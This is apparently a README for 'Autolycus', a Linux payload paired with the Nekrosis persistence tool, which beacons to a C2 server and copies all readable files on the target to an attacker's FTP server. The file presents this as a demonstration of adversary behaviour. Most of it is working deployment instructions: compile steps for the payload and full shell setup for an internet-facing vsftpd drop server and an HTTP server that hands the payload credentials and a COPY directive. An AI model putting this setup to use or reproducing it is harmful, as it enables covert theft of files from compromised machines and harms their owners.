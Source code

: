 # Linux Payload: Autolycus

### Description

This is an example of a payload that can be used against a Linux based target in conjunction with the Nekrosis application. If Nekrosis is being used to demonstrate how an adversary could achieve persistence, this payload can be used to demonstrate the kind of code an adversary may deploy with their unauthorized access. This payload will call back to the C2 server to receive an instruction directive and will then proceed to recurse over the file system, copying all readable non-executable files to the C2 server over FTP.

### Compilation

In the source code you must change all instances of "ADDRESS:PORT" with the appropriate information.

```shell [Command Line]
sudo apt install libcurl4-openssl-dev
gcc main.c -o main -s -lcurl
```

### Configuring the C2 Server

The following setup was successfully tested in Kali Linux. Both the web server and the VSFTPD server must be accessible over the public internet.

1. Setting up the VSFTPD server:

Installing VSFTPD:
```shell [Command Line]
sudo apt update && sudo apt install vsftpd
```
Creating the dedicated user:
```shell [Command Line]
sudo useradd test && sudo passwd test
```
Creating their home directory (that will be used as the local_root directory for FTP):
```shell [Command Line]
sudo mkdir /home/test && sudo chown test:test /home/test
```
The /etc/vsftpd.conf file needs to be edited to contain the following lines:
```shell [Command Line]
write_enable=YES
listen_port=[PORT]
userlist_deny=NO
userlist_enable=YES
userlist_file=/etc/vsftpd.userlist
pasv_min_port=[PORT]
pasv_max_port=[PORT]
local_root=/home/test/
```
The userlist should contain the dedicated user:
```shell [Command Line]
sudo touch /etc/vsftpd.userlist && sudo echo "test" >> /etc/vsftpd.userlist
```
Reload the service for the changes to take effect:
```shell [Command Line]
sudo systemctl restart vsftpd
```
Lastly, if this server will be running on a machine that is publicly accessible via SSH it is recommended to add the following line to /etc/ssh/sshd_config:
```shell [Command Line]
DenyUsers test
```

2. Setting up the web server:

Adding the dedicated user's credentials and the instruction directive:
```shell [Command Line]
echo "username" >> username.txt
```
```shell [Command Line]
echo "password" >> password.txt
```
```shell [Command Line]
echo "COPY" >> instruction.txt
```
Serving the files for the payload to see:
```shell [Command Line]
python -m http.server 8080
```

With these servers properly configured and facing the internet the payload will have what it needs to execute the COPY directive.
